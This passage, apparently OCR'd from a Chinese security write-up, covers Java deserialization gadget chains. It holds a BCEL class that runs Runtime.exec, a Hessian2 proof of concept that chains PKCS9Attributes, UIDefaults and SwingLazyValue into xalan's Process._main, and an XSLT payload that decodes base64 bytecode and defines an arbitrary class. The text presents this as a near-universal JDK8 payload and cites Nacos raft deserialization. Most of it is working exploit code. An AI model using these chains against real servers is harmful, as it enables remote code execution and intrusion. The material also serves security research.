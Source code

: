 ```
package com.javasec.pocs.rce;

import java.io.IOException;

public class BcelRCE {
    public static void _main(String[] argv) throws Exception {
        Runtime.getRuntime().exec("cmd");
    }
    public static void main(String[] args) {

    }
}


```

这里用到了`com.sun.org.apache.bcel.internal.util.JavaWrapper`这个类的`_main`静态方法，在方法内部可以加载BCEL字节码，会加载恶意类的`_main`方法。但是问题是，BCEL打内存马需要全反射的形式调用，Bcel类加载器不会加载springframework下的依赖，会抛出`ClassNotDefinded`的异常，它只能加载jdk包下的原生类，这一点就是一个限制，所以这里假如目标出网可以用这条gadgets，比较方便。

### 3、XSLT

在nacos的raft反序列化里出现过这条链子

```
public static void main(String[] args) throws Exception {
        //Pkcs9可以换成MimeTypeParameterList
        PKCS9Attributes pkcs9Attributes = SerializeUtils.createWithoutConstructor(PKCS9Attributes.class);
        UIDefaults uiDefaults = new UIDefaults();
        uiDefaults.put(PKCS9Attribute.EMAIL_ADDRESS_OID, new SwingLazyValue("com.sun.org.apache.xalan.internal.xslt.Process", "_main", new Object[]{new String[]{"-XT", "-XSL", "E:\\payload.xslt"}}));
        SerializeUtils.setFieldValue(pkcs9Attributes,"attributes",uiDefaults);
        FileOutputStream fileOut = new FileOutputStream("poc.ser");
        Hessian2Output out = new Hessian2Output(fileOut);
        fileOut.write(67);
        out.getSerializerFactory().setAllowNonSerializable(true);
        out.writeObject(pkcs9Attributes);
        out.close();
        fileOut.close();

    }
}

```

该gadgets可在jdk8通杀，这是一条高可用的payload，用到了`com.sun.org.apache.xalan.internal.xslt.Process`的_main方法去加载恶意的xslt文件，我们可以在xslt文件内部执行任意语句，并且不受限。

```
&lt;xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
                xmlns:b64="http://xml.apache.org/xalan/java/sun.misc.BASE64Decoder"
                xmlns:ob="http://xml.apache.org/xalan/java/java.lang.Object"
                xmlns:th="http://xml.apache.org/xalan/java/java.lang.Thread"
                xmlns:ru="http://xml.apache.org/xalan/java/org.springframework.cglib.core.ReflectUtils"
&gt;
    &lt;xsl:template match="/"&gt;
        &lt;xsl:variable name="bs" select="b64:decodeBuffer(b64:new(),'base64')"/&gt;
        &lt;xsl:variable name="cl" select="th:getContextClassLoader(th:currentThread())"/&gt;
        &lt;xsl:variable name="rce" select="ru:defineClass('classname',$bs,$cl)"/&gt;
        &lt;xsl:value-of select="$rce"/&gt;
    &lt;/xsl:template&gt;
&lt;/xsl:stylesheet&gt;


```